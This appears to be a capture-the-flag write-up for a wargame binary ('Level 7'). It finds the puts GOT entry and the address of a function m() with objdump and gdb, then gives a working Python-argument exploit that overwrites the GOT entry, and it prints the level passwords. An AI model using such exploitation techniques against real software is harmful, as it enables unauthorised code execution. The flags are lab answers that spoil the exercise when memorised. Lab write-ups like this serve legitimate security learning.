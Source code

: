# Level 7
*password : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*

## Analyze

```
$ scp -P 4242 level7@192.168.56.108:level7 binary/
```

## GOT overwrite

- excute `m()` instead of `puts()`

```
$ objdump -R ./level7 
...
08049928 R_386_JUMP_SLOT   puts
...
$ gdb level7
(gdb) info funct m
...
0x080484f4  m
...
```

`m()` address : 0x080484f4\
`puts()` address : 0x08049928

- compute offset : 8 + 3 * 4 = 20

```
$ ./level7  $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1651857543
```
